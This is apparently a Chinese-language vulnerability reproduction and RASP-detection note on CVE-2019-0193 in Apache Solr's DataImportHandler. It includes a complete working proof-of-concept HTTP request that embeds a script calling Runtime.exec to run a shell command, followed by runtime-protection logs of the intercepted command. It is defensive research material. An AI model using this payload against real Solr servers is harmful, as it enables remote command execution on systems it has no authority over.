




# CVE-2019-0193

## 漏洞简介
Apache Solr如果启用了DataImportHandler模块，因为它支持使用web请求来指定配置信息"DIH配置" ，攻击者可构造HTTP请求指定dataConfig参数的值(dataConfig内容)，dataConfig内容完全可控(多种利用方式)，后端处理的过程中，可导致命令执行

## 影响版本

Apache Solr < 8.2.0 

## 复现环境

### solr安装启动
[solr-7.7.2 下载地址](https://archive.apache.org/dist/lucene/solr/7.7.2/solr-7.7.2.zip)

在本地解压，进入solr-7.7.2目录，执行命令

```shell
bin/solr -e dih
```


### solr攻击

首先我们可以通过接口 `http://127.0.0.1:8983/solr/admin/cores` 来获取所有core，下面我们构造payload需要名称信息.



在postman中发送以下POC立即执行命令创建文件



完整的请求：

```shell
POST http://127.0.0.1:8983/solr/atom/dataimport?command=full-import&verbose=false&clean=false&commit=true&debug=true&core=atom&name=dataimport&dataConfig=<dataConfig>
<dataSource type="URLDataSource"/>
<script><![CDATA[
function poc(row){
var process= java.lang.Runtime.getRuntime();
process.exec("touch /tmp/solr.txt");
return row;
}
]]></script>
<document>
<entity name="stackoverflow"
url="https://stackoverflow.com/feeds/tag/solr"
processor="XPathEntityProcessor"
forEach="/feed"
transformer="script:poc" />
</document>
</dataConfig>
```
## RASP防护

执行上面的请求，RASP拦截到如下命令执行：
```shell
{
    "protocol":"HTTP/1.1",
    "method":"POST",
    "remoteHost":"127.0.0.1",
    "cmdArray":[
        "touch",
        "/tmp/solr.txt"
    ],
    "requestURI":"/solr/atom/dataimport",
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "jdk.nashorn.internal.scripts.Script$Recompilation$3$17A$\\^eval\\_.poc(<eval>:3)",
        "jdk.nashorn.internal.runtime.ScriptFunctionData.invoke(ScriptFunctionData.java:639)",
        "jdk.nashorn.internal.runtime.ScriptFunction.invoke(ScriptFunction.java:494)",
        "jdk.nashorn.internal.runtime.ScriptRuntime.apply(ScriptRuntime.java:393)",
        "jdk.nashorn.api.scripting.ScriptObjectMirror.callMember(ScriptObjectMirror.java:199)",
        "jdk.nashorn.api.scripting.NashornScriptEngine.invokeImpl(NashornScriptEngine.java:386)",
        "jdk.nashorn.api.scripting.NashornScriptEngine.invokeFunction(NashornScriptEngine.java:190)",
        "org.apache.solr.handler.dataimport.ScriptTransformer.transformRow(ScriptTransformer.java:55)",
        "org.apache.solr.handler.dataimport.EntityProcessorWrapper.applyTransformer(EntityProcessorWrapper.java:222)",
        "org.apache.solr.handler.dataimport.EntityProcessorWrapper.nextRow(EntityProcessorWrapper.java:280)",
        "org.apache.solr.handler.dataimport.DocBuilder.buildDocument(DocBuilder.java:476)",
        "org.apache.solr.handler.dataimport.DocBuilder.buildDocument(DocBuilder.java:415)",
        "org.apache.solr.handler.dataimport.DocBuilder.doFullDump(DocBuilder.java:330)",
        "org.apache.solr.handler.dataimport.DocBuilder.execute(DocBuilder.java:233)",
        "org.apache.solr.handler.dataimport.DataImporter.doFullImport(DataImporter.java:424)",
        "org.apache.solr.handler.dataimport.DataImporter.runCmd(DataImporter.java:483)",
        "org.apache.solr.handler.dataimport.DataImportHandler.handleRequestBody(DataImportHandler.java:184)",
        "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:199)",
        "org.apache.solr.core.SolrCore.execute(SolrCore.java:2551)",
        "org.apache.solr.servlet.HttpSolrCall.execute(HttpSolrCall.java:711)",
        "org.apache.solr.servlet.HttpSolrCall.call(HttpSolrCall.java:516)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:395)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:341)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1602)",
        "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:540)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:146)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:548)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:257)",
        "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1588)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:255)",
        "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1345)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:203)",
        "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:480)",
        "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1557)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:201)",
        "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1247)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:144)",
        "org.eclipse.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:220)",
        "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:126)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.rewrite.handler.RewriteHandler.handle(RewriteHandler.java:335)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.Server.handle(Server.java:502)",
        "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:364)",
        "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:260)",
        "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:305)",
        "org.eclipse.jetty.io.FillInterest.fillable(FillInterest.java:103)",
        "org.eclipse.jetty.io.ChannelEndPoint$2.run(ChannelEndPoint.java:118)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:765)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool$2.run(QueuedThreadPool.java:683)",
        "java.lang.Thread.run(Thread.java:748)"
    ],
    "localAddr":"127.0.0.1",
    "remoteAddr":"127.0.0.1"
}
```

同时solr系统自带的系统监控也会触发命令执行：


同时也检测到下面的命令执行，这个命令执行是业务自身的命令，加入白名单
```shell
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "cmdArray":[
        "uptime"
    ],
    "requestURI":"/solr/admin/info/system",
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "org.apache.solr.handler.admin.SystemInfoHandler.execute(SystemInfoHandler.java:240)",
        "org.apache.solr.handler.admin.SystemInfoHandler.getSystemInfo(SystemInfoHandler.java:223)",
        "org.apache.solr.handler.admin.SystemInfoHandler.handleRequestBody(SystemInfoHandler.java:149)",
        "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:199)",
        "org.apache.solr.handler.admin.InfoHandler.handle(InfoHandler.java:91)",
        "org.apache.solr.handler.admin.InfoHandler.handleRequestBody(InfoHandler.java:81)",
        "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:199)",
        "org.apache.solr.servlet.HttpSolrCall.handleAdmin(HttpSolrCall.java:736)",
        "org.apache.solr.servlet.HttpSolrCall.handleAdminRequest(HttpSolrCall.java:717)",
        "org.apache.solr.servlet.HttpSolrCall.call(HttpSolrCall.java:496)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:395)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:341)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1602)",
        "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:540)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:146)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:548)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:257)",
        "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1588)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:255)",
        "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1345)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:203)",
        "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:480)",
        "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1557)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:201)",
        "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1247)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:144)",
        "org.eclipse.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:220)",
        "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:126)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.rewrite.handler.RewriteHandler.handle(RewriteHandler.java:335)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.Server.handle(Server.java:502)",
        "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:364)",
        "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:260)",
        "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:305)",
        "org.eclipse.jetty.io.FillInterest.fillable(FillInterest.java:103)",
        "org.eclipse.jetty.io.ChannelEndPoint$2.run(ChannelEndPoint.java:118)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:333)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:310)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:168)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.run(EatWhatYouKill.java:126)",
        "org.eclipse.jetty.util.thread.ReservedThreadExecutor$ReservedThread.run(ReservedThreadExecutor.java:366)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:765)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool$2.run(QueuedThreadPool.java:683)",
        "java.lang.Thread.run(Thread.java:748)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "wt":[
            "json"
        ],
        "_":[
            "1631592449908"
        ]
    },
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```

solr 系统自带的命令执行
```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "cmdArray":[
        "uname",
        "-a"
    ],
    "requestURI":"/solr/admin/info/system",
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "org.apache.solr.handler.admin.SystemInfoHandler.execute(SystemInfoHandler.java:240)",
        "org.apache.solr.handler.admin.SystemInfoHandler.getSystemInfo(SystemInfoHandler.java:222)",
        "org.apache.solr.handler.admin.SystemInfoHandler.handleRequestBody(SystemInfoHandler.java:149)",
        "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:199)",
        "org.apache.solr.handler.admin.InfoHandler.handle(InfoHandler.java:91)",
        "org.apache.solr.handler.admin.InfoHandler.handleRequestBody(InfoHandler.java:81)",
        "org.apache.solr.handler.RequestHandlerBase.handleRequest(RequestHandlerBase.java:199)",
        "org.apache.solr.servlet.HttpSolrCall.handleAdmin(HttpSolrCall.java:736)",
        "org.apache.solr.servlet.HttpSolrCall.handleAdminRequest(HttpSolrCall.java:717)",
        "org.apache.solr.servlet.HttpSolrCall.call(HttpSolrCall.java:496)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:395)",
        "org.apache.solr.servlet.SolrDispatchFilter.doFilter(SolrDispatchFilter.java:341)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1602)",
        "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:540)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:146)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:548)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:257)",
        "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:1588)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextHandle(ScopedHandler.java:255)",
        "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1345)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:203)",
        "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:480)",
        "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:1557)",
        "org.eclipse.jetty.server.handler.ScopedHandler.nextScope(ScopedHandler.java:201)",
        "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:1247)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:144)",
        "org.eclipse.jetty.server.handler.ContextHandlerCollection.handle(ContextHandlerCollection.java:220)",
        "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:126)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.rewrite.handler.RewriteHandler.handle(RewriteHandler.java:335)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:132)",
        "org.eclipse.jetty.server.Server.handle(Server.java:502)",
        "org.eclipse.jetty.server.HttpChannel.handle(HttpChannel.java:364)",
        "org.eclipse.jetty.server.HttpConnection.onFillable(HttpConnection.java:260)",
        "org.eclipse.jetty.io.AbstractConnection$ReadCallback.succeeded(AbstractConnection.java:305)",
        "org.eclipse.jetty.io.FillInterest.fillable(FillInterest.java:103)",
        "org.eclipse.jetty.io.ChannelEndPoint$2.run(ChannelEndPoint.java:118)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.runTask(EatWhatYouKill.java:333)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.doProduce(EatWhatYouKill.java:310)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.tryProduce(EatWhatYouKill.java:168)",
        "org.eclipse.jetty.util.thread.strategy.EatWhatYouKill.run(EatWhatYouKill.java:126)",
        "org.eclipse.jetty.util.thread.ReservedThreadExecutor$ReservedThread.run(ReservedThreadExecutor.java:366)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:765)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool$2.run(QueuedThreadPool.java:683)",
        "java.lang.Thread.run(Thread.java:748)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "wt":[
            "json"
        ],
        "_":[
            "1631592449908"
        ]
    },
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
